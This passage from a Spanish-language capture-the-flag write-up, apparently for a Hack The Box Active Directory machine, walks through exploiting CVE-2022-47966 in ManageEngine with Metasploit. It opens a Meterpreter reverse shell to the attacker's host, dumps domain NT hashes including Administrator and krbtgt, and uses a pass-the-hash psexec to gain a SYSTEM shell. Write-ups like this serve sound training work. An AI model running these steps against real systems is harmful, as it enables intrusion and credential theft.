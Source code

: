 ```null
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Use the analyze command to suggest 
runnable modules for hosts
Metasploit Documentation: https://docs.metasploit.com/

msf6 > use exploit/multi/http/manageengine_adselfservice_plus_saml_rce_cve_2022_47966
[*] Using configured payload cmd/windows/powershell/meterpreter/reverse_tcp
msf6 exploit(multi/http/manageengine_adselfservice_plus_saml_rce_cve_2022_47966) > set GUID 67a8d101690402dc6a6744b8fc8a7ca1acf88b2f
GUID => 67a8d101690402dc6a6744b8fc8a7ca1acf88b2f
msf6 exploit(multi/http/manageengine_adselfservice_plus_saml_rce_cve_2022_47966) > set RHOSTS 172.16.22.1
RHOSTS => 172.16.22.1
msf6 exploit(multi/http/manageengine_adselfservice_plus_saml_rce_cve_2022_47966) > set LHOST 10.10.16.15
LHOST => 10.10.16.15
msf6 exploit(multi/http/manageengine_adselfservice_plus_saml_rce_cve_2022_47966) > set SSL true
SSL => true
msf6 exploit(multi/http/manageengine_adselfservice_plus_saml_rce_cve_2022_47966) > set RPORT 9251
RPORT => 9251
msf6 exploit(multi/http/manageengine_adselfservice_plus_saml_rce_cve_2022_47966) > set ISSUER_URL http://dc.cerberus.local/adfs/services/trust
ISSUER_URL => http://dc.cerberus.local/adfs/services/trust
sf6 exploit(multi/http/manageengine_adselfservice_plus_saml_rce_cve_2022_47966) > run

[*] Started reverse TCP handler on 10.10.16.15:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Sending stage (175686 bytes) to 10.10.11.205
[*] Meterpreter session 1 opened (10.10.16.15:4444 -> 10.10.11.205:64297) at 2023-06-01 20:36:44 +0000
```

Dumpeo los hashes NT de todos los usuarios

```null
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8a89ac8a8b099a7578cd9698578d01fd:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d2e82d4f77310a49973793ee986b6490:::
matthew:1104:aad3b435b51404eeaad3b435b51404ee:bcd285980e1d9b302e16875844ef6977:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:62b2ac47a9d6de6f5c0a0a19d69806ac:::
adfs_svc$:5602:aad3b435b51404eeaad3b435b51404ee:e4f19ac9b4220b87fa07a4f234d51c8a:::
ICINGA$:9102:aad3b435b51404eeaad3b435b51404ee:af70cf6b33f1cce788138d459f676faf:::
```

Gano una shell como ```nt authority\system``` haciendo ```PassTheHash```

```null
proxychains psexec.py cerberus.local/Administrator@127.0.0.1 -hashes ':8a89ac8a8b099a7578cd9698578d01fd' -no-pass
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 127.0.0.1.....
[*] Found writable share ADMIN$
[*] Uploading file WVVdwKZp.exe
[*] Opening SVCManager on 127.0.0.1.....
[*] Creating service YZQF on 127.0.0.1.....
[*] Starting service YZQF.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.4010]
(c) 2018 Microsoft Corporation. All rights reserved.
```